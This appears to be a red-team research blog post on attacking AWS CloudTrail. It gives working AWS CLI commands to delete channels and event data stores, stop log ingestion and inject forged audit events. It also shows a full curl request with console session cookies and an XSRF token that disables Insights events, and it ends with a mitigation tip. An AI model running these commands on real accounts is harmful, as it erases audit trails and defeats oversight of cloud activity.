 ```yaml
---
published: true
title: Attacking AWS Cloudtrail 101
date: 2023-11-24 07:40:00 +0200
categories: [Research]
tags: Cloud
---
```


# Attacking AWS Cloudtrail 101

# Introduction

I was inspired by @[Frichette_n](https://twitter.com/Frichette_n) research about Cloudtrail bypasses and I didn’t find any material or talks discussing how we can attack Cloudtrail. 

I presented this research @[BsidesABQ](https://twitter.com/BSides_ABQ)

Since logging is one of our enemies in red team operations, I decided to do my research on how to attack Cloudtrail from Adversary perspective. 

# Table of content

1. Service-link Channels
    1. Deleting Channels 
    2. Log pensioning 
2. Event data stores
    1. Deleting stored data 
    2. Stop data logging 
3. Insights events
    1. Disabling Insights events 

# What is Cloudtrail?

AWS CloudTrail is an AWS service that helps you enable operational and risk auditing, governance, and compliance of your AWS account. Actions taken by a user, role, or an AWS service are recorded as events in CloudTrail.

# Service-link Channels

## Enumeration :

- aws cloudtrail list-channels --profile Cloudtrail

<img src="https://i.ibb.co/6Dfx001/1.png" alt="1" border="0">

## Abuse 1.1 :

Delete-channel permission  
> You can delete a channel between cloudtrail and crowdstrike falcon for example.

- aws cloudtrail delete-channel --channel arn:aws:cloudtrail:eu-north-1:036528129738:channel/3d5f7c83-5146-4ea5-8e62-7250313f9e26 --profile Cloudtrail

> This permission won’t work if you have EC2 machine, you need to use your own server.
> 

<img src="https://i.ibb.co/q9fR4KD/2.png" alt="2" border="0">

## Abuse 1.2 :

Put-audit-events permission 

- aws cloudtrail-data put-audit-events --channel-arn $CHANNEL_ARN --region "us-east-1" --audit-events <data> --profile cloudtrail

> It always breaks when I use JSON directly into the command so I used bash
> 

<img src="https://i.ibb.co/FWbvtvz/3.png" alt="3" border="0">

<img src="https://i.ibb.co/Y0H1sQB/4.png" alt="4" border="0">

---

# Event data store

## Enumeration :

- aws cloudtrail list-event-data-stores --profile Cloudtrail

<img src="https://i.ibb.co/fXFKgHc/5.png" alt="5" border="0">

## Abuse 1.1 :

Delete-event-data-store permission

- aws cloudtrail delete-event-data-store --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/3RNBfCT/6.png" alt="6" border="0">

## Abuse 1.2 :

stop-event-data-store-ingestion permission

- aws cloudtrail stop-event-data-store-ingestion --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/GMYsbRM/7.png" alt="7" border="0">

---

# Insights events :

## Enumeration :

- aws cloudtrail get-insight-selectors --trail-name management-events --profile Cloudtrail

<img src="https://i.ibb.co/W53NzZ5/8.png" alt="8" border="0">

## Abuse :

Put-Insight-selector permission

> By using this you are disabling the insights events.
> 
1. Enable intercept in Burpsuite

<img src="https://i.ibb.co/jV9WT5P/9.png" alt="9" border="0">

2. This request can be done with the CLi all you need is the cookies.

<img src="https://i.ibb.co/S0M5BmT/10.png" alt="10" border="0">

```bash
curl -i -s -k -X $'PUT' \
    -H $'Host: eu-north-1.console.aws.amazon.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://eu-north-1.console.aws.amazon.com/cloudtrail/home?region=eu-north-1' -H $'Content-Type: application/json' -H $'x-cloudtrail-xsrf-token: UkNZNHRuRmdvSkc1SFhYQTNTLVZOdTl2RkJsN2JkanNLQl9zZTVMQUIwWXwtNDAwNjEzMTg5ODI5Mzk5MzA4OXwxfDIwMjMtMTEtMjRUMTM6MTk6NDYuNzM3Wg==' -H $'Origin: https://eu-north-1.console.aws.amazon.com' -H $'Content-Length: 141' -H $'Connection: close' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Cache-Control: max-age=0' \
    -b $'aws-creds-code-verifier=mLrTV0kwR9xl3b0OUxQKI749k6drbT-eg7BDvSwFrMhbo5-X2; aws-consoleInfo=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJldS1ub3J0aC0xIiwiYWxnIjoiRVMzODQiLCJraWQiOiI1N2QxOTI5MC05NzQxLTQzMDgtYWYxOC1hNzQyNmRmYjZhYzgifQ.eyJhdF9oYXNoIjoiMzFWN2FQd3FqVkx3VmNKM19RWkVHZTd5VnRhTkxaXzYiLCJpc3MiOiJodHRwOlwvXC9zaWduaW4uYXdzLmFtYXpvbi5jb21cL3NpZ25pbiIsInN1YiI6ImFybjphd3M6aWFtOjowMTU0Mjg1NDA2NTk6dXNlclwvY2xvdWR0cmFpbCJ9.GWtXx-axeyOkZsDKsRi62by09wVmJLH810Sq-51Y2eA3zv2P48n2NAn-SwaRNCEZhdcfQHrBlsRVvQajAQ6DZm7OLXhEdppCqbdm-md_Guh6nMjiyyht22x6in9CTdQU; aws-creds=eyJ2IjoyLCJlIjoiZ01QaHFTeFBXVVRJNnEwdzF5RVhya2dyeVJCYzFOQzdNcTZVcURpWHlpRFBm%0AbnFyTTdhdEFyRktqTERONld2QkZzZ0tBakZKMVMySCUwQVZ1UWtyMEhmbmVLaXBnQ2hHWGpjYWFl%0AVHRVejlUTmU0bHRFUjZHclFRaHBwU3JjOUo1bjFBMGtJOE56Z0tpNWtEbXElMkJtUkRXVCUyQnMx%0AJTBBQTFTQUZraFZOZlljV1V5eXRmZFI2bVhraU1WSDZ2Q25LR2ZkZDZxMGprJTJGajhQWmRsREpQ%0ARWhGZHFPbyUyQkJlTm5rdzdDT3dUcEI5WlQlMEE0cGRqT0NTQ2wlMkJJazNyM01ZR05oRFRGeE1V%0ATlZaWmVLVlNUYjZVMFJ6diUyQllKWjJKcXJ0V3Z0RkpkOVEwOVhoSTFMZU5laGtSOWsyMiUwQVQz%0ARVJOV1NuTUlJb1JlRjhzNkdzV1JIUUlHYSUyRm1MeGJRdWhrYkFPR0swdU1tNmxMRzBsRlNPcmJL%0AbHRZbXBIN1ZhRVhvNUlaOGtJVyUwQWdDcXZ4SWJ5YUZvWFhaJTJGaGhnUE9FSkhsbkphV09WQ0RI%0AanB5RzJRSkEwMWFGVFZLUHR1V1RBdCUyRmxrZ3clMkZIU0VudjYxNkFBVmRyNHUlMEFwS1NNdTdt%0AanlnTlJLYkY5Ujh3czV2U25RWW44VFVxNW5LWHN5dHFjeE5LcGx0dVhhJTJCQVV6SUVlMCUyQnhz%0AJTJCbEZOTEtYZ2lqS3lQcmtnJTBBOThJQ2JNdmxoMVVwM3YxbVJKUVo5eUhpSkl0eHRPQnZuZ21Q%0AWHRyMWxiYkVncDZuTnB3eE43Rjk1Z0ZtbzBmREtGZk0zQUMlMkJVVHNZJTBBaW9YWWpob1V5Zjk3%0ASWZOMFV5ViUyQjVpd0drbXZWb1BWeVR2SjZUWCUyRnpEWk1YU0NFbXdDODVxN0VkWGZIUG9vT2w3%0AUE9JUUdmYlRaa1ElMEFmUGNDMFVYSWdCVU1EM0NuZW1lRVJhbUhBalZXSVREVjlXd0hZNE1NQiUy%0ARk1NUlZhNUQ4djdUcFpNeGt2UjFObWY3JTJGS0glMkI5OXMweTVZJTBBazNZQjRxZmdCZVNRZG5Y%0AcENGa3VmWDhHVjQ3WiUyRjBRNzdqT2NqJTJGZiUyRjNnMDJTJTJCb1R0VDhVN3I2RSUyRjBmaFRT%0ATCUyQmNlSHg5aDZJNXElMkJzJTBBbHdLNk02ZTFNR0lPbVR2WmttJTJCa3g3MiUyQmZET0FYcTBx%0ARjEwc2pQeXNXcUppZmNBVXZXU0w0NzJjWHU2b29XSmJneHRxMktZdU8zZWolMEFZTiUyRkNadXpY%0ARGRGOVdrUXRTRER0VTdwcSUyQnNUSlhvZXd6UDZOR2NQSE9OQko2czZzbWJEVUdub2I5eHUlMkJp%0AYm1YdE5XREhLelNtYmFQJTBBek9FOFFoaDFJdTU4WXc3YlM0ZnQ2UElTQUFRUEhydU1LdXI2YzE3%0AY01TJTJGSTB1Nk9HQUkzTlhRM2VmMUc1bENCY2pZV09QUWZkd2JKJTBBRmxzTDkwNXdjaDFrYmJZ%0AbHJvSnA1dDdndUcxclExc2MxSHdnNVRMN0VXNk1PS2dGQ0dLMzdTS2dETzBuRGpGa0xnVzhvUVZ0%0AQ3dSQyUwQTlMRVVBS3MxTlNCaTlNZUR3M3lJTkxXMERPYkhZZDNocmhCTFgyR3RMQ0lqemNZWGN6%0AMWdLMTVid1U3UHVzdVZaTTNPWHZtZ255R1glMEE1WDhkM2w0N29xOWRUMFlRd2hCRGtEeFF4RWlK%0AV3lOaTJBNUJJaTBNVmsxeEpMeFJyOHhUSmNXYnRpNHRPNW9HQkhyQWJ1TVJjcGJGJTBBMXRPa2J2%0AV0JOMGlzWW1HR1VBNE9wQmFDUnBpblY1MzhaUW1qUU80SHdIUlEzJTJCVFByRGxPbG90SnFVaE5G%0AY2dJR1FPU2NWQm4xdsfgsdfgdsfgsdfgdGRIJTBBQ0J4RDhUT0ZRckIlMkZoalR4enhDRyUyQjZYZE9vU1V3VlYlMkZv%0Aem9MRTdBZlVCUUx0WElyazNKdWltMWpaYmUlMkJXZHFLdmRaJTJGNDY4TjFpREMlMEFzUDBISnd0%0AT2F6dmk4QlhkWW4xbHIzN1pOY0dZM3ZIRXBBMlRsV0hhNkVEUWNWanJaaXB3Um9GdUwlMkJOeUU0%0ANVY0eTFFVHpiN2lNWkIlMEFBMGVzOVdxNjZnSzdrcUFDcU9iOSUyRmk5WHElMkZtNTFFZ0lFaHU4%0AVDBlVFd2MUxIWnd2NDA0MHFnbzRUYTF4Z2lmUGlpTU1HSUlzZ2pZdyUwQTBBMkxQUG4lMkZ4VWt1%0Aa3J6UWYxVG41YW04VXpIVE9DOHExY0NyOE5ySFd3S0g1VW9pV2pKbU0yUDdwR1h4Q2F5WEpyQ29t%0AeGZqN2FzWiUwQW9ENFR2WlpWdE5KaVB3Z1V6aGpHN1o2M1NkZVNGSXlpaG5KbmZjUWd6N0wzbkQz%0AMzlxbVc0M2dKcXRkUWxIdGo0MTZyMkpncSIsImEiOjEsImsiOjU0fQ%3D%3D; JSESSIONID=15A621603EB7FCA92753D57BCFCB5A08; aws-ubid-main=611-7283050-5123120; aws-vid=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwaWQiOiI2Y2NmYTJkNy0zNTg5LTRhNTYtOWZmYy1lYmEzOThhNzZhNGYiLCJ1YXQiOjE3MDA4MzE3MTcyNzEsImV4cCI6MTczMjM2NzcxNzI3MSwicHZkIjoiYXdzLmFtYXpvbi5jb20ifQ.aRXljW_PBiRDswnsnoguweZpXOuJpLbbGRgZ1mbnYOc; remember-account=false; aws-account-alias=036528129738; aws-account-data=%7B%22marketplaceGroup%22%3A%22AWS%22%7D; aws-userInfo=%7B%22arn%22%3A%22arn%3Aaws%3Aiam%3A%3A036528129738%3Auser%2FtestaccountBudget%22%2C%22alias%22%3A%22036528129738%22%2C%22username%22%3A%22testaccountBudget%22%2C%22keybase%22%3A%22BusFwa7ORKTMx8q4jxMcO%2FXT%2BxohCbdpsGyvdSG7mPo%5Cu003d%22%2C%22issuer%22%3A%22http%3A%2F%2Fsignin.aws.amazon.com%2Fsignin%22%2C%22signinType%22%3A%22PUBLIC%22%7D; aws-userInfo-signed=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJ1cy1lYXN0LTEiLCJhbGciOiJFUzM4NCIsImtpZCI6ImViYjdjODY1LTY3NGEtNDNjZi1hYzY2LTUxNGQ1YjQxNjlhYiJ9.eyJzdWIiOiIwMzY1MjgxMjk3MzgiLCJzaWduaW5UeXBlIjoiUFVCTElDIiwiaXNzIjoiaHR0cDpcL1wvc2lnbmluLmF3cy5hbWF6b24uY29tXC9zaWduaW4iLCJrZXliYXNlIjoiQnVzRndhN09SS1RNeDhxNGp4TWNPXC9YVCt4b2hDYmRwc0d5dmRTRzdtUG89IiwiYXJuIjoiYXJuOmF3czppYW06OjAzNjUyODEyOTczODp1c2VyXC90ZXN0YWNjb3VudEJ1ZGdldCIsInVzZXJuYW1lIjoidGVzdGFjY291bnRCdWRnZXQifQ.oQm0YxRL52ZYNmAZAe5l3JZ2X0hVsDlEeEsmoU2pldiWE1Mf5K3jBGbllNzsdfgdfsgasdfasdfasdhsdafhcSWR_EVPz8qHWj0sllbEamEg8pc46Bkn8ngVf9nrjW-S96JmOe96Zh9GTQtPq1QYP7bIL; regStatus=registered; seance=%7B%22accountId%22%3A%22036528129738%22%2C%22iam%22%3Atrue%2C%22services%22%3A%5B%22AWSCloudTrail%22%2C%22cloudtrail%22%5D%2C%22status%22%3A%22ACTIVE%22%2C%22exp%22%3A0%7D; awsc-color-theme=light; awsc-uh-opt-in=\"\"; noflush_awsccs_sid=e9aa0dda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; cloudtrail-session-id=Bzyht0Qcyfak6VcugHAl12BN77W7CsXUhW6h8o58Khw; awsccc=eyJlIjoxLCJwIjoxLCJmIjoxLCJhIjoxLCJpIjoiMTJjZDQxMDktYjI5OC00NzgxLThjYTktOTNiZTQxMTE2NDgyIiwidiI6IjEifQ==; aws-signer-token_eu-north-1=eyJrZXlWZXJzaW9uIjoiY3ZSblRkWDUxR0ZxeDdNTkNENG9rbnVaT3FwdDBEQmgiLCJ2YWx1ZSI6ImdFemt2Sy9BN01zZTN4cXlUdGZNWDF6UkFSNlY5WlZoOUtZOUhRYTd4MWc9IiwidmVyc2lvbiI6MX0=; noflush_awscnm=%7B%22hist%22%3A%5B%22ctr%22%2C%22home%22%5D%2C%22sc%22%3A%5B%5D%2C%22tm%22%3A%22tm-both%22%2C%22ea%22%3Atrue%2C%22consoleFlags%22%3A%5B%22F%22%2C%22G%22%2C%22J%22%2C%22H%22%2C%22L%22%5D%7D; noflush_Region=eu-north-1; last-sign-in-session=e9aadda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; toolsExperience={}; awsc-rac=BAH30|CGK33|CPT33|DXB33|HKG33|HYD33|MEL33|MXP30|TLV30|ZAZ30|ZRH30@1700831742609; noflush_awsc_cct_config_version=6CMfVeLSUFu_q_sUXRTc_ZaZy4fH5pf8sRxOAQt_JAc' \
    --data-binary $'{\"trailArn\":\"arn:aws:cloudtrail:eu-north-1:036528129738:trail/management-events\",\"trailHomeRegion\":\"eu-north-1\",\"trailInsightSelectors\":\"[]\"}\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'https://eu-north-1.console.aws.amazon.com/cloudtrail/service/putInsightSelectors?region=eu-north-1
```

---

## Conclusion

Most of AWS permission can be weaponized if the attacker understood how it works, if you used condition statements you will prevent anyone from using what I call dangerous permissions [ Deleting, editing ….etc. ], even if there misconfiguration only the principal you are allowing will be able to use it.
